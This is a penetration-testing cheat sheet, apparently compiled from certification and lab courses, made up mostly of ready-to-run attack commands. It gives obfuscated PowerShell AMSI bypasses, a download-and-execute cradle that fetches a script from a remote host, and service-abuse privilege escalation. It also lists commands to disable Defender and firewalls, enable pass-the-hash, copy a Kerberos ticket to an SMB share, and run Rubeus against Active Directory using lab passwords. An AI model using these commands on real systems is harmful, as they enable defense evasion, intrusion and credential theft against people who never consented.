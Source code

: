 #### AMSI Bypasses ####
1. CRTP Bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

-> Run twice (the first will be detected but it will decimate AMSI so the second one would run perfectly) 
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

2. Modern Bypass 1 (2023)
```
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

3. Modern Bypass 2 (2023)
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

- Download-Execute Cradle
`iex (New-Object Net.WebClient).DownloadString('http://172.16.100.33/PowerView.ps1')`

#### Local PrivEsc ####
1. Abusing service permissions
`Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose`

2. Abusing unquoted service path
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss.exe' -UserName 'dcorp\studentx' -Verbose`

3. Abusing service executable (binary) permissions
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss Web Server\abyssws.exe' -UserName 'dcorp\studentx' -Verbose`

#### Tamper with Host Defenses as an Administrator ####
- Disable Defender
`Set-MpPreference -DisableRealtimeMonitoring $true`

- Disable Firewall
`Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-Out" -Direction Outbound -Protocol TCP -Action Allow -LocalPort 8080`

- Enable RDP
`Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Terminal Server' fDenyTSConnections 0`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (TCP-In)'`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (UDP-In)'`

- Enable Restricted Admin Mode to Allow PtH
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

#### Access Machines Remotely ####
- Remote access via SSH
`ssh htb-student@10.129.176.110`

- Remote access via RDP
`xfreerdp /v:10.129.201.234 /u:htb-student /p:'Academy_student_AD!'`
(if xfreerdp is not working → (`apt reinstall freerdp2-x11`)

- Launch a PowerShell session on a different computer as a nother user.
`$passwd = ConvertTo-SecureString -AsPlainText -Force -String <PASSWORD>`
`$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "Domain\User",$passwd`

- Run commands on a remote computer.
`Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <COMPUTER> -Credential $cred`

- Start an interactive session with a remote computer.
`Enter-PSSession -ComputerName <COMPUTER> -Credential $cred`

- Create a persistent PSSession on a local or remote computer.
`New-PSSession -ComputerName <COMPUTER> -Credential $cred`
#### File Transfers ####
- Transfer Files via SCP
`scp htb-student@10.129.176.110:/opt/host-enum.txt host-enum.txt`

- Transfer Files via SMB
`impacket-smbserver Docs -smb2support . -user test -password test`
`net use n: \\10.10.14.100\Docs /user:test test`
`copy .\0-40e10000-htb-student@krbtgt~INLANEFREIGHT.LOCAL-INLANEFREIGHT.LOCAL.kirbi \\10.10.14.100\Docs\`

#### Rubeus ####
- Create sacrificial process.
`.\Rubeus.exe createnetonly /program:'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' /username:student33 /password:htTz2J72nH9KuAXr /domain:certbulk.cb.corp /show`

- Request a TGT using PKINIT.
`.\Rubeus.exe asktgt /user:certstore /certificate:C:\ADCS\Auditor\Loot\certstore.pfx /domain:cb.corp /dc:cb-ca.cb.corp /password:certpass /nowrap /ptt /getcredentials`